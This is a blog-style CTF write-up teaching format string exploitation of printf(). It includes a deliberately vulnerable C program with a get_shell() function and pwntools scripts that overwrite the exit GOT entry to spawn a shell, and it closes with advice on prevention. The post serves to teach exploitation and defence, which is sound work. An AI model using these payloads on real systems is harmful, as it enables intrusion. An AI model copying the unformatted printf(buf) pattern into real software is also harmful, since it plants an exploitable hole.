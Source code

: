 ```yaml
---
layout: post
title:  "Exploiting Format String bug"
date:   2020-06-07
categories: ctf
description: Basic format string bug
tags: ctf-writeup hackthebox
---
```


did you know , we can write something on memory by using printf ? yes we can.
in this post i will try to explain how printf works and how we can exploit format string
vulnerability on printf()

### How printf() works

in C we can print something using printf , for example:
{% highlight C %}
#include <stdio.h>
void main(){
  int x = 1337;
  char buf[0xff] = "bro";
  printf("%d from %s" , x , buf);
}
{% endhighlight %}

if we compile the source code above, the output will be like this


<img src="/images/format-string/2020-06-11-193407_256x46_scrot.png" />

we can use some format for printf something

    %d  for integer
    %s  for char
    %l  for long int
    %ll   for long long int
    %p  for pointer in hexadecimal
    %o  for octal
    %x unsigned hexadecimal
    %n write something?

we can write some data on memory by using %n format for 4 byte and here is the other:

    hhn  : write 1 byte
    hn   : write 2 byte
    n    : write 4 byte

the exploit for 64bit and 32bit architecture is slightly different
because in 64bit we have to deal with null char "\x00" , for example

on 32bit our exploit will look like this:

    [padding][address]%[value]c%[index]$[write_type]

while on 64 bit our exploit will look like this:

    %[value]c%[index]$[write_type][padding][address]

as you can see , on 64bit architecture our address will placed at the end of the payload ,
it's because we are dealing with null char , for example if we want to write on address 0xdeadbabe

on 32bit ```0xdeadbabe``` will look like this:

    \xbe\xba\xad\xde

while on 64bit will look like this:

    \xbe\xba\xad\xde\x00\x00\x00\x00

on 64bit there is null char on the address , so we have to place the address at the end of the payload
because if printf found a null char '\x00' it will simply terminate to print , i assume you already know about little endian

### Exploitation

for example to exploit format string and doing arbitrary write on an address , this is a vulnerable program you can exploit
{%highlight c%}
#include <stdio.h>
#include <stdlib.h>

void get_shell(){
        system("/bin/sh");
}

void main(){
        char buf[100];
        read(0 , buf , sizeof(buf));
        printf(buf);
        exit(1);
}
{% endhighlight %}

compile the source with flags to compile it as 32bit architecture and disable pie protection:

    gcc source.c -o bug -no-pie -m32

as you can see , the bug is on printf , because we don't use any fomat to printf value from buffer , so we can simply
leak any value on the stack by input "%p"

<img src="/images/format-string/2020-06-11-202053_323x70_scrot.png" />

our goal is to overwrite GOT  exit() to get_shell() address by using format string bug ,
why exit ?  because if we look at the binary protection :

<img src="/images/format-string/2020-06-11-202816_291x131_scrot.png" />

because on 32bit architecture gcc will disable relro protection by default , so it's possible to us to overwrite GOT libc address
to somewhere on memory , in this case get_shell() , firstly we have to determine our input index on the stack

<img src="/images/format-string/2020-06-11-203741_495x65_scrot.png" />

according from the image above , our input is on index 6 in the stack , because ```0x41414141``` is our input```AAAA```
now we have to determine exit got address by using ```readelf```

<img src="/images/format-string/2020-06-11-204235_472x214_scrot.png" />

exit got address on ```0x0804c018``` now we have to determine get_shell() address

<img src="/images/format-string/2020-06-11-204543_648x398_scrot.png" />

get_shell on address ```0x080491F6``` , now we have to craft our exploit

{% highlight python %}
from pwn import *
exit_got = 0x0804c018
get_shell = 0x080491F6
r = process("./chall")
gdb.attach(r)

p = "AAAA"
p += p32(exit_got)
p += "%{}c%7$hhn".format((0x41 - 8) & 0xff)

r.sendline(p)
r.interactive()
{% endhighlight %}

so we want to write 0x41 on exit_got address , we use hhn because we only write 1 byte on memory ,
we have to substract by 8 , why 8 ? because we already write 8 byte on the stack ,
and AND with 0xff because we only write 1 byte on the memory
run the exploit and check the got address

<img src="/images/format-string/2020-06-11-205616_451x155_scrot.png" />


we successfully write 0x41 on exit got  , now we want to write 0x91f6 on exit_got address so we can jump
to get_shell() , our exploit should look like :

{% highlight python %}
from pwn import *
exit_got = 0x0804c018
get_shell = 0x080491F6
r = process("./chall")
gdb.attach(r)
p = "AAAA"
p += p32(exit_got)
p += p32(exit_got+1)
p += "%{}c%7$hhn".format((0xf6 - 12) & 0xff)
p += "%{}c%8$hhn".format((0x91 - 0xf6) & 0xff)

r.sendline(p)
r.interactive()
{% endhighlight %}

as you can see , we have to substract our write value by our last value , we got ```12``` becase
we already write 12 byte to stack and we want to write 0xf6 to exit_got address , after that
we substract 0x91 by - 0xf6 because we already write 0xf6 to exit_got address , and for 7 , we got 7
becuase ```AAAA``` is on index 6 so exit_got address will on index 7 and exit_got+1 on index 8

<img src="/images/format-string/2020-06-11-210815_598x540_scrot.png" />
<img src="/images/format-string/2020-06-11-211313_720x134_scrot.png" />

now we successfully overwrite exit got address to ```get_shell()```

### prevent format string bugs

to prevent this bug , you have to specify the format before print any data ,
because attacker can leak or write data on stack by using this bug , for example :
{% highlight c %}
printf("%s" , buf);
printf("%x",val);
printf("%d",val2);
{% endhighlight %}
